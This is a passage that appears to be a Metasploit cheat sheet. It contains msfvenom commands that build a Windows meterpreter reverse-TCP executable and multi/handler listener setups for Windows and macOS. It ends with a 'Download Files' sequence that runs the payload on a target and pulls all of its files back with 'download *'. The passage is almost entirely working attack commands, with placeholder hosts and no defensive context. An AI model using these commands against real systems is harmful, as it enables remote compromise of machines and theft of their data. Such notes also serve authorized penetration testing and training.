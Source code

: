 ```console
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o meterpreter_payload.exe
```

#### Setup Listener for Microsoft Windows

```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <LHOST>
LHOST => <LHOST>
msf6 exploit(multi/handler) > set LPORT <LPORT>
LPORT => <LPORT>
msf6 exploit(multi/handler) > run
```

#### Setup Listener for MacOS

```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST <LHOST>
LHOST => <LHOST>
msf6 exploit(multi/handler) > set LPORT <LPORT>
LPORT => <LPORT>
msf6 exploit(multi/handler) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit
```

#### Download Files

```console
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o <FILE>.exe
```

```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <LHOST>
LHOST => <LHOST>
msf6 exploit(multi/handler) > set LPORT <LPORT>
LPORT => <LPORT>
msf6 exploit(multi/handler) > run
```

```console
C:\> .\<FILE>.exe
```

```console
meterpreter > download *
```
